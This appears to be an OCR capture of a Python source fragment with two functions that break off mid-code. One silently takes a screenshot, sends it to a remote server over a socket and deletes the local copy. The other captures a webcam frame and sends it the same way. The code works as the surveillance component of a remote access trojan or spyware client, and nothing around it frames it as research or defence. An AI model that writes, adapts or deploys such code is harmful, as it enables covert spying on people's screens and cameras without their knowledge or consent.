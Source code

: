 # Take and send screenshot to server
def send_screenshot(client_socket):
    try:
        now = datetime.now().strftime("%m-%d-%Y-%H.%M.%S")
        filename = now + '.png'
        try:
            screenshot_path = os.path.join(os.getcwd(), filename)
            screenshot = pyautogui.screenshot()
            screenshot.save(screenshot_path)
        except Exception:
            try:
                home_dir = os.path.expanduser("~")
                screenshot_path = os.path.join(home_dir, filename)
                screenshot = pyautogui.screenshot()
                screenshot.save(screenshot_path)
            except Exception:
                client_socket.sendall("no".encode())
                return
        client_socket.sendall(filename.encode())
        if os.path.exists(screenshot_path):
            client_socket.sendall("yes".encode())
        else:
            client_socket.sendall("no".encode())
            return
        client_socket.recv(1024)
        with open(screenshot_path, "rb") as file:
            while True:
                chunk = file.read(CHUNK_SIZE)
                if not chunk:
                    break
                client_socket.sendall(chunk)
            client_socket.sendall(EOF_MARKER.encode())
        os.remove(screenshot_path)
    except Exception:
        try:
            client_socket.sendall("no".encode())
        except Exception:
            pass

# Capture and send webcam image to server
def send_webcam_image(client_socket):
    try:
        cam = cv2.VideoCapture(0)
        if not cam.isOpened():
            client_socket.sendall(struct.pack('<Q', 0))
            cam.release()
            return
        ret, frame = cam.read()
        cam.release()
        if not ret:
            client_socket.sendall(struct.pack('<Q', 0))
            return
        success, img_encoded = cv2.imencode('.jpg', frame)
        if not success:
            client_socket.sendall(struct.pack('<Q', 0))
            return
        img_bytes = img_encoded.tobytes()
        client_socket.sendall(struct.pack('<Q', len(img_bytes)))
        client_socket.sendall(img_bytes)
    except Exception:
        try:
